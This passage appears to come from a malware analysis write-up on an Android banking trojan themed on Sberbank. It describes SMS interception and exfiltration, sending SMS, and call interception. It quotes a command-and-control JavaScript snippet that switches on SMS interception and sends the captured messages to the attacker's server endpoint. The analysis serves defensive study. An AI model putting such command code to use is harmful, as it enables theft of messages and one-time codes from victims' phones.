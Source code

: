 SMS are caught and the app exfiltrates them:

![sms](/assets/res/malware/sberbank/sms.png)

However, the malware could also send SMS:

![send_sms](/assets/res/malware/sberbank/send_sms.png)

This kind of action can be requested by the C&C server, by putting in the HTML response such JS code, according to Zscaler's article

> ```html
><script>
>MeAction.SetCmd("SMSperehvat", "http://"+MeSetting.getDomain()+"/api/inputsms.php");
>MeAction.SetSMS("SMSperehvat");
></script>
> ```

The malware can also make some calls and intercept them:

![call](/assets/res/malware/sberbank/call.png)
